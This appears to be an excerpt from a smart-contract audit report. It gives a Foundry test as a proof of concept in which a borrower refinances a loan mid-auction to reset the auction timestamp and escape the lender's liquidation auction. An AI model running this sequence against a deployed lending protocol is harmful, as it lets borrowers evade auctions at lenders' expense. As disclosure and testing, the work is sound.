 `lender.startAuction(loanIds);`

So the auction should end 1 day from the current block.timestamp. Then it is refinanced.

If refinance resets the auction timestamp, startAuctionTimestamp will be reset to type(uint256).max:

`assertEq(auctionTimestamp, type(uint256).max);`

This test passes so the proof/attack was successful


```solidity
    function test_refinance_during_auction() public {
        test_borrow();

        vm.startPrank(lender2);
        Pool memory p = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100*10**18,
            poolBalance: 1000*10**18,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(p);

        vm.startPrank(lender1);

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        //start auction is called
        lender.startAuction(loanIds);


        vm.startPrank(borrower);
        Refinance memory r = Refinance({
            loanId: 0,
            poolId: keccak256(
                abi.encode(
                    address(lender2),
                    address(loanToken),
                    address(collateralToken)
                )
            ),
            debt: 100*10**18,
            collateral: 100*10**18
        });
        Refinance[] memory rs = new Refinance[](1);
        rs[0] = r;

        lender.refinance(rs);

        (,,,,,,,,uint auctionTimestamp,) = lender.loans(0);

        //assert that auction timestamp has reset
        assertEq(auctionTimestamp, type(uint256).max);

        
    }
```
